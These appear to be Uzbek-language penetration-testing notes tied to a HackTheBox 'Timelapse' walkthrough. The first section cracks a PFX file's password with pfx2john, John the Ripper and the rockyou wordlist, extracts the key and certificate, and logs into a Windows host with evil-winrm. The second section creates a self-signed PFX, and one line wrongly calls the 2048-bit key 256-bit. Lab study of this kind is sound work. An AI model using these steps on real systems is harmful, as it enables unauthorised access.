 **PFX fayl parolini aniqlash?**  
PFX faylni tekshirish.
 - **# openssl pkcs12 -info -in mycertificate.pfx**   
1. Hash yaratish.
 - **# pfx2john fayl.pfx > fayl.hash**
2. John the Ripper bilan parolni ochish.
 - **# john fayl.hash --wordlist=/usr/share/wordlists/rockyou.txt --force**
3. Kalit va sertifikatni olish.  
   A. Shaxsiy kalitni chiqarish:
    - **# openssl pkcs12 -in fayl.pfx -nocerts -out fayl.key-enc**
    - Enter Import Password:(hash orqali aniqlangan parol (Brute force paroli))  Enter PEM pass phrase(Shaxsiy kalit uchun yangi parol kiritish): Verifying - Enter PEM pass phrase(qayta kiritish):   
   B. Sertifikatni chiqarish:   
    - **# openssl pkcs12 -in fayl.pfx -clcerts -nokeys -out fayl.crt**   
   C. Shaxsiy Kalitni shifrdan yechish (Decrypt):
    - **# openssl rsa -in fayl.key-enc -out fayl.key**
    - yuqorida kiritilgan yangi parol kiritiladi.
4. evil-winrm orqali tizimga ulanish. (evil-winrm — bu Windows Remote Management (WinRM) protokoliga asoslangan vosita bo'lib, Windows tizimlariga masofaviy ulanish uchun ishlatiladi.)
 - **# evil-winrm -i <IP> -k fayl.key -c fayl.crt -S -r timelapse**    

Asosiy parametrlar:   
**-i <IP>** – Masofaviy Windows mashinasining IP manzili. (Masalan: 10.10.10.10)  
**-k fayl.key** – Shaxsiy kalit (Private Key) fayli. Bu kalit .pfx fayldan ajratib olingan bo'lishi kerak.  
**-c fayl.crt** – Sertifikat (Certificate) fayli. Bu ham .pfx fayldan chiqarib olingan.  
**-S** – HTTPS orqali ulanish. Bu parametr WinRM xizmatiga xavfsiz (TLS) ulanishni ta'minlaydi.  
**-r timelapse** – Bu parametr ressurs nomini ko'rsatadi. Bu misolda "timelapse" deb nomlangan domen yoki ma'lum bir ulanish konteksti kiritilgan. (Bu CTF topshirig'ida maxsus muhit yoki ulanish nuqtasi bo'lishi mumkin.)    
 - **# evil-winrm -i 10.10.10.10 -k private.key -c certificate.crt -S**  
https://www.hackingarticles.in/timelapse-hackthebox-walkthrough/


**PFX fayl yaratish**
1. OpenSSL o'rnatilganligini tekshirish
 - **# openssl version**
 - Agar o'rnatilmagan bo'lsa (**# sudo apt update && sudo apt install openssl**)
2. Shaxsiy kalit (Private Key) yaratish (256-bitli RSA shaxsiy kalit yaratish)
 - **# openssl genrsa -out private.key 2048**
 -  **private.key** — bu shaxsiy kalit bo'lib, maxfiy saqlanishi kerak.
3.  Sertifikat uchun talab (CSR - Certificate Signing Request) yaratish
 - **# openssl req -new -key private.key -out request.csr**
4. Self-Signed Certificate yaratish.
 - **# openssl x509 -req -days 365 -in request.csr -signkey private.key -out certificate.crt**
5. PFX (PKCS#12) faylini yaratish.
 - **# openssl pkcs12 -export -out mycertificate.pfx -inkey private.key -in certificate.crt**
6. Yaratilgan PFX faylni tekshirish.
 - **# openssl pkcs12 -info -in mycertificate.pfx**   

